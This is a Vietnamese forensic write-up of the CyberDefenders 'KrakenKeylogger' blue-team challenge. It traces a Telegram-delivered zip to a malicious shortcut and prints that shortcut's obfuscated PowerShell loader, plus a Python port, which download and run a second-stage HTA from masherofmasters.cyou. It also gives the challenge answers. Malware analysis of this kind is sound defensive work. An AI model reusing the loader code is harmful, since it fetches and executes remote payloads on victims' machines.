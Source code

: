 ## Description 
> an employee interacts with a threat actor through a messaging app, notifications become key to unraveling cyber attacks
## Link challenge 
> https://cyberdefenders.org/blueteam-ctf-challenges/krakenkeylogger/learn
## Solution

- Thứ nhất đề có đề cập đến việc thông báo chính là chìa khoá của cả bài.
- Lục tìm tại `C:\Users\$username\AppData\Local\Microsoft\Windows\Notifications\wpndatabase.db` để tìm lại lịch sử thông báo. 
- Thấy có 1 tag thông báo có nội dung 
```
<toast launch="0|0|Default|0|https://web.telegram.org/|p#https://web.telegram.org/#" displayTimestamp="2023-07-11T16:57:15Z">
 <visual>
  <binding template="ToastGeneric">
   <text>Nawaf</text>
   <text>📎 our project templet test.zip,pass:@1122d</text>
   <text placement="attribution">web.telegram.org</text>
   <image placement="appLogoOverride" src="C:\Users\OMEN\AppData\Local\Google\Chrome\User Data\Notification Resources\cd18935b-57e3-4838-b5e3-ef360362f771.tmp" hint-crop="none"/>
  </binding>
 </visual>
 <actions>
  <action content="Go to Chrome notification settings" placement="contextMenu" activationType="foreground" arguments="2|0|Default|0|https://web.telegram.org/|p#https://web.telegram.org/#"/>
 </actions>
</toast>
```
- Thấy rằng thông báo đến từ trang web `telegram` và đính kèm liên kết `test.zip` có password là `@1122d`
> Q1 : What is the the web messaging app the employee used to talk to the attacker?
> telegram

> Q2 : What is the password for the protected ZIP file sent by the attacker to the employee?
> @1122d

- Em tìm file `test.zip` để bắt đầu phân tích bằng lệnh `find -D tree | grep test.zip`, ở đây em thu được địa chỉ nằm tại `./Users/OMEN/Downloads/project templet test.zip`
- Giải nén ra bằng mật khẩu em có được 2 file 1 file docx và 1 file lnk
- Phân tích file lnk, thấy rằng nó bao gồm 1 đoạn powershell đáng ngờ
```
$ProgressPreference = 0;
function nvRClWiAJT($OnUPXhNfGyEh){$OnUPXhNfGyEh[$OnUPXhNfGyEh.Length..0] -join('')};
function sDjLksFILdkrdR($OnUPXhNfGyEh){
$vecsWHuXBHu = nvRClWiAJT $OnUPXhNfGyEh;
for($TJuYrHOorcZu = 0;$TJuYrHOorcZu -lt $vecsWHuXBHu.Length;$TJuYrHOorcZu += 2){
try{$zRavFAQNJqOVxb += nvRClWiAJT $vecsWHuXBHu.Substring($TJuYrHOorcZu,2)}
catch{$zRavFAQNJqOVxb += $vecsWHuXBHu.Substring($TJuYrHOorcZu,1)}};$zRavFAQNJqOVxb};
$NpzibtULgyi = sDjLksFILdkrdR 'aht1.sen/hi/coucys.erstmaofershma//s:tpht';
$cDkdhkGBtl = $env:APPDATA + '\' + ($NpzibtULgyi -split '/')[-1];
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$wbpiCTsGYi = wget $NpzibtULgyi -UseBasicParsing;
[IO.File]::WriteAllText($cDkdhkGBtl, $wbpiCTsGYi);
& $cDkdhkGBtl;
sleep 3;
rm $cDkdhkGBtl;
```
- Để dễ hiểu hơn em dùng chat gpt convert nó qua python 
```
import os
import requests
import time
import ssl

def nvRClWiAJT(OnUPXhNfGyEh):
    return ''.join(reversed(OnUPXhNfGyEh))

def sDjLksFILdkrdR(OnUPXhNfGyEh):
    vecsWHuXBHu = nvRClWiAJT(OnUPXhNfGyEh)
    zRavFAQNJqOVxb = ''
    for TJuYrHOorcZu in range(0, len(vecsWHuXBHu), 2):
        try:
            zRavFAQNJqOVxb += nvRClWiAJT(vecsWHuXBHu[TJuYrHOorcZu:TJuYrHOorcZu + 2])
        except:
            zRavFAQNJqOVxb += vecsWHuXBHu[TJuYrHOorcZu:TJuYrHOorcZu + 1]
    return zRavFAQNJqOVxb

NpzibtULgyi = sDjLksFILdkrdR('aht1.sen/hi/coucys.erstmaofershma//s:tpht')
cDkdhkGBtl = os.path.join(os.getenv('APPDATA'), NpzibtULgyi.split('/')[-1])

ssl_context = ssl.create_default_context()
ssl_context.set_ciphers('DEFAULT@SECLEVEL=1')
response = requests.get(NpzibtULgyi, verify=False)
wbpiCTsGYi = response.text

with open(cDkdhkGBtl, 'w') as f:
    f.write(wbpiCTsGYi)

os.system(cDkdhkGBtl)
time.sleep(3)
os.remove(cDkdhkGBtl)

```
- Ở đây xử lý đường link `aht1.sen/hi/coucys.erstmaofershma//s:tpht` và lưu dữ liệu vào file cDkdhkGBtl
- Em sửa cript để nó in ra đường dẫn chính xác 
```
import os
import time
import ssl

def nvRClWiAJT(OnUPXhNfGyEh):
    return ''.join(reversed(OnUPXhNfGyEh))

def sDjLksFILdkrdR(OnUPXhNfGyEh):
    vecsWHuXBHu = nvRClWiAJT(OnUPXhNfGyEh)
    zRavFAQNJqOVxb = ''
    for TJuYrHOorcZu in range(0, len(vecsWHuXBHu), 2):
        try:
            zRavFAQNJqOVxb += nvRClWiAJT(vecsWHuXBHu[TJuYrHOorcZu:TJuYrHOorcZu + 2])
        except:
            zRavFAQNJqOVxb += vecsWHuXBHu[TJuYrHOorcZu:TJuYrHOorcZu + 1]
    return zRavFAQNJqOVxb

NpzibtULgyi = sDjLksFILdkrdR('aht1.sen/hi/coucys.erstmaofershma//s:tpht')

print(NpzibtULgyi)
```
- Kết quả : https://masherofmasters.cyou/chin/se1.hta
> Q : What domain did the attacker use to download the second stage of the malware?

> A : masherofmasters.cyou
